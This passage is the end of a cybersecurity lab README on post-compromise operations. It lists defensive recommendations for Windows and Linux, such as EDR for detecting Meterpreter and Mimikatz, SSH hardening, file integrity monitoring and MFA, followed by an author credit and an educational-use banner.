10. **Defense-in-depth is essential** — No single control stops all attacks; layered defenses are required.

---

## 🛡 Security Recommendations

### For Windows Environments
- 📧 Deploy email security gateways with attachment sandboxing
- 🛡 Implement EDR/XDR to detect Meterpreter and Mimikatz behavior
- 🔒 Enable Windows Defender Credential Guard and LAPS
- 📜 Enable PowerShell constrained language mode and script block logging
- 🔑 Use enterprise password managers instead of browser storage

### For Linux Environments
- 👤 Follow principle of least privilege — don't auto-add users to `sudo`
- 👁 Monitor for unauthorized account creation and `sudo` group changes
- 🔐 Harden SSH (disable passwords, use keys, fail2ban)
- 📋 Implement file integrity monitoring on `/etc/passwd`, `/etc/shadow`, `/etc/group`, `/etc/sudoers`
- 🛡 Use Linux Security Modules (AppArmor, SELinux)

### General Recommendations
- 🧑‍🏫 Regular security awareness training and phishing simulations
- 🔐 Multi-Factor Authentication (MFA) everywhere
- 🔀 Network segmentation to limit lateral movement
- 📊 Centralized logging and SIEM monitoring
- 🔄 Regular patching and vulnerability management

---

## 📝 Author

**Bryll Umangay**

*Cybersecurity Laboratory Exercise*  
*II.4 – Post-Compromise Operations Module*

---

<div align="center">

### 🎓 **EDUCATIONAL PURPOSES ONLY — USE RESPONSIBLY**

</div>
